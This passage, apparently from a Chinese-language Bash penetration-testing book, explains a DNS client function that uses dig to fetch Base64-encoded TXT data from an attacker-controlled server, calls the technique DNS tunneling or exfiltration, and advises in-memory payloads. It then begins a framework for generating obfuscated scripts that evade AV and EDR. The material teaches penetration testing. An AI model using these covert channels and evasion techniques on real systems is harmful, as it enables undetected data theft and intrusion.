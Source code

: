 图 14.2 – 显示了 DNS 客户端的输出

重要提示

你需要自己编辑服务器端和客户端代码，修改以发送适合渗透测试操作的有效载荷。这只是一个框架。你可以在传输数据之前对其进行编码或加密，然后在客户端进行解码或解密，并完全在内存中运行代码以避免写入磁盘。

以下是 `retrieve_data` 函数代码的解释：

+   `local key="$1"` ：这一行声明了一个本地变量 `key`，并将其赋值为传递给函数的第一个参数的值。

+   `echo "Sending query for: $key.get.$DOMAIN to $SERVER_IP"` ：这一行打印出发送的查询内容。

+   `local result=$(dig @$SERVER_IP +short TXT "$key.get.$DOMAIN")` ：这是函数的核心，使用`dig`命令执行 DNS 查询。让我们分解一下：

    +   `dig` ：这是一个 DNS 查询工具。

    +   `@$SERVER_IP` ：这个变量指定了要查询的 DNS 服务器（你自定义的服务器）。

    +   `+short` ：这告诉`dig`给出简洁的答案。对于`TXT`记录，它只返回文本数据。

    +   `TXT` ：这指定我们正在查找`TXT`记录。

    +   `"$key.get.$DOMAIN"` ：这是我们查询的完整域名，包含了`key`变量、`get`字眼和`DOMAIN`变量。

    +   整个命令被包裹在`$()`中，这是命令替换。它运行命令并返回输出，然后将其分配给`result`变量。

+   `if [ -n "$result" ]; then` ：这检查`result`变量是否非空。

+   在`if`语句块内部，我们有以下内容：

    +   `local decoded=$(echo $result | tr -d '"' | base64 -d 2>/dev/null)` ：这一行处理结果：

        +   `echo $result` ：输出结果

        +   `tr -d '"'` ：移除任何引号字符

        +   `base64 -d` ：解码 Base64 编码的字符串

        +   `2>/dev/null` ：将任何错误信息重定向到`/dev/null`（丢弃它们）

+   `if [ $? -eq 0 ]; then` ：这检查之前的命令（Base64 解码）是否成功：

    +   如果成功，它将打印解码后的数据。如果失败，它将打印错误信息和原始数据。

    +   如果`result`为空，它会打印`No data found** **for '{$key}'`。

    +   最后，输出一个分隔符行。

`dig` 命令在这里非常重要。它使用 DNS 传输数据，查询一个包含我们关心的密钥的`TXT`记录的域名。服务器会在`TXT`记录中返回 Base64 编码的数据，客户端随后进行解码。

这种使用 DNS 进行数据传输的方法有时被称为**DNS 隧道**或**DNS 外泄**。这是利用一种通常被防火墙允许的协议（DNS）来传输数据的创意方式，即使其他协议被阻止时，仍然可以通过该协议进行数据传输。

在探索了多种规避 AV 或 EDR 检测的混淆载荷方法之后，让我们继续下一部分，探讨如何使用 Bash 自动化脚本混淆。

# 自动化 Bash 中的规避脚本生成

为了自动化生成混淆的 Bash 脚本，我们将创建一个简单的框架，结合多种规避技术。这个框架将帮助我们快速生成更有可能避开 AV 和 EDR 系统检测的脚本。

这是我们框架的基本结构。以下代码可以在本章的 GitHub 仓库中找到，文件名为`ch14_auto_obfuscate_1.sh`。我将把代码分解成小部分并进行解释：

```
 #!/usr/bin/env bash
# Function to encode a string using base64
encode_base64() {
    echo "$1" | base64
}
```
